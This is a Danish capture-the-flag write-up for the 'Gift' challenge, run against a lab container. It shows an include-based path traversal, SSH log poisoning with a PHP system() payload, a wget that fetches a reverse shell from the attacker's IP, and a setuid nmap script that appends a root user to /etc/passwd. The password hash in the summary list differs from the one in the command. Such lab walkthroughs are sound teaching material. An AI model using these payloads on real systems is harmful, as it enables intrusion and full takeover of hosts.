 ```yaml
---
layout: post
title:  "De Danske Cybermesterskaber 2022 - Nationals - Gift"
date:   2022-05-07 16:17:46 +0200
categories: writeups
---
```

# Gift
Dette er mit writeup for Gift, en challenge som jeg havde til hensigt skulle være nem, men endnu engang i år kom jeg til at fejlvurdere hvad der er `nemt` og hver der nok er nærmere `medium-svært`. 

Det er ikke min hensigt at fucke med nogens opfattelse af hvad de kan, sorry for den dårlige sværhedsgrads-labeling :-(

(I dette writeup løser jeg opgaven fra en lokalt kørende container, derfor vil du se `localhost` i stedet for `gift.hkn` på screenshots)

Ihvertfald er `Gift` en `boot2root` challenge hvor hensigten er at udnytte et `php include` statement til at udføre `log poisoning` igennem  `auth.log`.

Uanset hvilken opgave du laver, er der altid en god idé at starte med et nmap.

```
root@d993e6b1ec7c:/# nmap 172.17.0.2
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-07 18:47 UTC
Nmap scan report for 172.17.0.2
Host is up (0.0000050s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 13.07 seconds
```

Hvilket viser `ssh` åben på port 22 og vores `webserver` på 8000.

Webserveren viser dope ass billeder af henholdsvis mig og mrbeef (skud ud til amar også).

Hvis man trykker `view source` kan man se at der er et link til backup som viser source koden.

```php
<!DOCTYPE html>
<style>
.container {
  display: flex;
  justify-content: center;
}
.center{
    position: absolute;
}
</style>
<html>
<body>
<div class="container">
  <div class="center"><h1>Er det MrBeef eller 0xlimE? Det er ihvertfald giftigt</h1></div>
    <br>


<?php
$pics = range(1,13);
echo("<div class='center' style='width:1000px; height:1000px; margin-top: 100px; background-image: url(\"pics/".$pics[rand(0, count($pics) - 1)].".png\");'></div>");
if( isset($_GET['adminDebug']))
{   
    include("admin/".$_GET['adminDebug']);
}

?>

</div>

<div style="display: none;">
<a href ="secretSAUCE/src.zip">Source here</a>
</div>
</body>
</html>
```

Der er et farligt farligt `php include` parret med `path traversal` se mere her: https://medium.com/@emmapinheiro42/php-include-ignore-4a3ba81371af

Vi kan prøve at inkludere `/var/log/auth.log` for at se om vi kan `forgifte` den log.

![authlog](auth.log.jpg)

Yes det virker. Vores næste step er at få noget php kode ind i loggen, som vi kan udnytte.

Vi logger ind med

```
ssh '<?php echo(system($_GET["a"])); ?>'@gift.hkn
```

skriver et forkert password, og prøver at inkludere loggen igen med parameter fra payload ovenover.

![logpoison](logpoison.jpg)

ok vi har command execution.

Lad os få en mere stabil reverse shell, jeg har god erfaring med at skrive den her php revshell til en fil og bruge den https://gist.github.com/rshipp/eee36684db07d234c1cc

Lav en fil på din angriber maskine, kald den for `rev.php` og læg din egen ip ind, host den med en python3 server `python3 -m http.server 80` og hent den ned til target ved at kalde.

```
http://gift.hkn:8000/?adminDebug=../../../../../var/log/auth.log&a=wget http://DIN IP HER/rev.php
```

herefter kan du trigger din reverse shell ved først at køre `nc -lvnp 1234` på din angriber maskine, og så gå til `gift.hkn/rev.php`

![revshell](revvy.jpg)


ok så er vi på maskinen.

Her laver du så standard linux privesc enum, jeg plejer at bruge linpeas. https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

Herfra finder du så ud af at `nmap` er installeret på maskinen med `setuid` bit på.

![revshell](setuid.JPG)

Det betyder at vi kan køre nmap som root brugeren. 

Vi tjekker gtfobins ud.

https://gtfobins.github.io/gtfobins/nmap/

Ok, ser ud til at vi har root read, men vi ved ikke hvad flaget hedder. Vi har også root write, så lad os tilføje en root bruger med et password vi kender.

her er en god artikel om at skrive til /etc/passwd
https://infinitelogins.com/2021/02/24/linux-privilege-escalation-weak-file-permissions-writable-etc-passwd/ 

vi vil gerne bruge ovenstående taktik til at skrive en ny bruger, som har root access og som har et password vi kender. Vi kan generere hash for passwordet `a` således:

![revshell](password.jpg)

Ok, så kigger vi lige på det angreb de beskriver på gtfobins til read.

```bash
TF=$(mktemp)
echo 'local f=io.open("file_to_read", "rb"); print(f:read("*a")); io.close(f);' > $TF
nmap --script=$TF
```

Det her kan vi modificere en smule til at skrive til `/etc/passwd`

```bash
TF=$(mktemp) && echo 'local f=io.open("/etc/passwd", "ab"); f:write("\nroot3:OEE5bK0hmfPj.:0:0:root:/root:/bin/bash"); io.close(f);' > $TF && nmap --script=$TF
```

**main points**
* we change the file to `/etc/passwd`
* we change `rb` from read bytes to `ab` append bytes
* we change `read` to `write` .
* we change the payload to write `\nroot3:EN0jGZIeW.SKM:0:0:root:/root:/bin/bash`

Vi kan køre exploit på remote og prøve at privesc

![revshell](privesc1.JPG)

lol fuck, ok vi skal have en upgraderet shell, her er en god guide til at få en bedre shell

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/


vi kunne også have lagt en ny ssh nøgle i vores bruger sssh mappe

nu prøver vi

```bash
su root3
Password: a
```

cool vi er root og hopper til `/root` og flag!


![revshell](flag.jpg)



sry for at have sagt det her er nemt, det er min fejl :(